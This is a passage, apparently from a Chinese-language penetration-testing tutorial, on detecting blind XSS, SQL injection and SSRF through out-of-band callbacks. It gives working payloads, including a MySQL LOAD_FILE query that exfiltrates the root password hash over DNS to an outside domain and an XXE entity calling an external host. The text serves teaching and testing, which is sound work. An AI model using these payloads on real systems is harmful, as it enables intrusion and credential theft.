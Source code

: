 ```
  
payload: "... ><img src=http://record.com/?blindxss ..."
  
condition: {http://record.com/?blindxss LOG} in HTTP requests LOGs
  
```
  
通过盲打，让触发者浏览器访问预设至的链接地址，如果盲打成功，会在平台上收到如下的链接访问记录：
  
![vul9](../pictures/vul9.png)
  
### ii. SQLi（无回显）
  
SQL 注入中无回显的情况是很常见的，但是有了 "Data Retrieval over DNS" 这种技术的话一切都变得简单了，前提是目标环境符合要求。下面是mysql 使用 "Data Retrieval over DNS" 技术进行盲注的 Payloads。
  
```
  
SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM mysql.user WHERE user='root' LIMIT 1),'.s.livesina.com\\abc'));
  
payload: "... load_file(concat('\\\\',user(),'.record.com\\blindsqli'))
  
condition: {*.record.com LOG} in DNS queries LOGs
  
```
  
只要目标系统环境符合要求并且执行了注入的命令，那么就会去解析预先设置好的域名，同时通过监控平台能够拿到返回的数据。
  
![vul10](../pictures/vul10.png)
  
### iii. SSRF（无回显）
  
根据上面两个例子，熟悉 SSRF 的同学肯定也是知道怎么玩了：
  
```
  
payload: "... <!ENTITY test SYSTEM "http://record.com/?blindssrf"> ..."
  
condition: {http://record.com/?blindssrf LOG} in HTTP requests LOGs
  
```
  
### iv. RCE（无回显）命令执行/命令注入
  
